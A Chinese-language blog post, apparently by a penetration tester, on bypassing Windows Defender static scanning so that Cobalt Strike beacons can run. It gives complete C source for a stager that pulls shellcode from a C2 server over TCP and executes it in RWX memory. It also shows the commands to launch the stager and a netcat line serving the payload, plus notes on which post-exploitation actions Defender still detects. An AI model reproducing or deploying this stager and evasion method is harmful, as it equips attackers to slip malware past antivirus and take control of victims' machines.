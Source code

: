 ```yaml
---
layout: post
title: Beacon-绕过windows defender
date: 2019-09-07 23:30:00
tags: Windows-Defender
categories: hack
author: PythonPig
---
```

* content
{:toc}

### \#0x00 写在前面 
最近工作实在是太忙了，一直想找时间把这篇文章写出来，无奈工作压力太大一直没能抽出时间。今天趁这个周末的晚上把这篇文章写完吧。  
之前用CS时习惯性的用windows dll，在windows server 2008 R2上一直运行的很不错，前段时间发现目标网络内部分操作系统升级到了windows server 2016，windows defender也升级到了最新版本，可想而知，没有经过第三方处理的CS beacon payload传上去之后瞬间就被秒了~~，果断google看看有没有好的解决办法，果然搜到了不少解决办法（具体见《参考》部分），今天只研究如何绕过静态扫描，以后补充如何绕过内存扫描、流量分析、行为分析，绕过静态扫描的方法：加密、混淆、截断拼接、payload字符（敏感字符或全部字符）替换、文件不落地等等，不过人怕出名猪怕壮，很多方法已经无法绕过windows defender的检测了。  
{:refdef: style="text-align: center;"}
![windows defender](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Beacon-绕过windows%20defender/windows%20defender.jpg?raw=true)
{: refdef}
图片来源于https://tweaklibrary.com/how-banking-trojan-disables-windows-defender-on-windows-10/



### \#0x01 尝试绕过 
在测试绕过windows defender的静态扫描时，首先使用了[Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)，结果Obfuscation的部分文件直接被windows defender报毒了，关了defender继续使用Obfuscation把cs的payload进行了混淆，结果，还是绕不过defender的静态扫描；后来使用了[Veil](https://github.com/Veil-Framework/Veil)加密CS的Veil payload，结果可以绕过相当一部分杀软的静态扫描，但是还是过不了最新版的defender静态扫描。    

Obfuscation和Veil的失败充分说明了什么叫“人怕出名猪怕壮”的道理。    

竟然混淆、加密都过不了defender的静态扫描，那尝试使用“文件不落地”的方式来绕过defender。  

思路如下：  
编写一个简单的stager，这个stager仅用于申请内存、下载payload并执行，该stager本身并不包含恶意代码，因此可以绕过windows defender的静态扫描。  

##### 1、编写stager
首先编写stager用于远程下载payload并执行，这个stager是一个TCP客户端，从我们的C2服务器下载payload、申请内存、执行payload。代码如下(Visual Studio 2010编译)：  
```
#include "stdafx.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#include <stdlib.h>

#pragma comment(lib, "ws2_32.lib")
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"" )


int main(int argc, char *argv[])
{    
	// Declare and initialize variables
	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);
   

	if (argc != 3) {
        fprintf(stderr,"usage: stager.exe hostname port\n");
        exit(0);
    }
	struct hostent *host;
    if ((host=gethostbyname(argv[1])) == NULL) {  /* get the host info */			
        puts("Get IP address error!");     
        exit(0);
    }
	
	int port = 0;
	if ((port = atoi(argv[2])) == NULL) {  /* get the port info */
        puts("Get port error!");     
        exit(0);
    }

    SOCKET sclient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if(sclient == INVALID_SOCKET)
    {
        printf("invalid socket !");
        return 0;
    }

    sockaddr_in serAddr;
    serAddr.sin_family = AF_INET;
    serAddr.sin_port = htons(port);
	serAddr.sin_addr = *((struct in_addr *)host->h_addr);
	
    if (connect(sclient, (sockaddr *)&serAddr, sizeof(serAddr)) == SOCKET_ERROR)
    {
        printf("connect error !");
        closesocket(sclient);
        return 0;
    }  
    char recData[1024];
    int receivedBytes = recv(sclient, recData, sizeof(recData), 0);
	printf("received:%d\n",receivedBytes);
    if(receivedBytes > 0)
    {      
		LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);	
		printf("Allocated memory for shellocode at:%p\n",shellcode);
	
		memcpy(shellcode, recData, sizeof(recData));	
		printf("Copied shellcode to:%p,Sending back meterpreter session...\n",shellcode);
		((void(*)()) shellcode)();
    }
    closesocket(sclient);
    WSACleanup();	
    return 0;
}
```
stager生成之后，上传至目标机器并执行，执行方式如：stager.exe c2_hostname port  
```
stager.exe www.xxxxxx.com 53    //使用域名方式
stager.exe 8.8.x.x 8080         //使用IP方式
```

##### 2、生成CS payload并在C2服务器启动TCP Server
使用CS生成payload  
{:refdef: style="text-align: center;"}
![生成payload](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Beacon-绕过windows%20defender/生成payload.png?raw=true)
{: refdef}   

在C2服务器上开启TCP Server，为了方便起见，直接使用netcat  
```
echo -e "\xfc\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\x00\x00\x00\x00\x00" | nc -l -p 53 -vvv
```
其中“\xfc\xxx\xxx\……\x00"为CS生成的payload。  

##### 3、目标上线
stager在目标机器上执行后，stager将在C2服务器下载payload并执行，目标上线。注意，虽然绕过了windows defender的静态扫描，但仍然需要小心defender的行为检测，比如利用beacon session进行提权、调用mimikatz时都会被defender检测到，不过dump hashes、proxy server等功能是可以正常执行的。  


### \#0x03 参考
* [渗透利器Cobalt Strike - 第2篇 APT级的全面免杀与企业纵深防御体系的对抗](https://xz.aliyun.com/t/4191#toc-5)
* [Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions](https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon#code) 
* [Cobalt Strike – Bypassing Windows Defender with Obfuscation](http://www.offensiveops.io/tools/cobalt-strike-bypassing-windows-defender-with-obfuscation/)
* [Evading Windows Defender with 1 Byte Change](https://ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change)  
* [I rolled my own crypto to work around](https://twitter.com/curi0usJack/status/1083470829290164227?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1083470829290164227&ref_url=https%3A%2F%2Ftwitter.com%2Fcuri0usJack%2Fstatus%2F1083470829290164227) 